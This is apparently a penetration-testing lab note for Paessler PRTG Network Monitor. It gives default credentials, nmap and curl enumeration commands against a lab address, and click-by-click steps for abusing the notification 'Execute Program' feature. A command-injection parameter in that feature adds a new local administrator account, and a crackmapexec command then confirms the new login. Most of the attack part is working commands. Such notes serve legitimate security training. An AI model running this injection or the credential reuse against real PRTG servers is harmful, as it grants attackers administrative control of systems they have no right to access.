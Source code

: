 26 vulnerabilities: https://www.cvedetails.com/vulnerability-list/vendor_id-5034/product_id-35656/Paessler-Prtg-Network-Monitor.html

Default credentials: prtgadmin:prtgadmin

## Discovery/Footprinting/Enumeration

```
sudo nmap -sV -p- --open -T4 10.129.201.50
curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version
```
- Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)


## Leveraging Known Vulnerabilities

1. Mouse over Setup
2. Account Settings
3. Notifications
4. Add new notification
5. Tick EXECUTE PROGRAM
6. Program File = Demo exe notification - outfile.ps1
7. Parameter =
```
test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add
```
9. Save
10. Click Test
```
sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG!
```
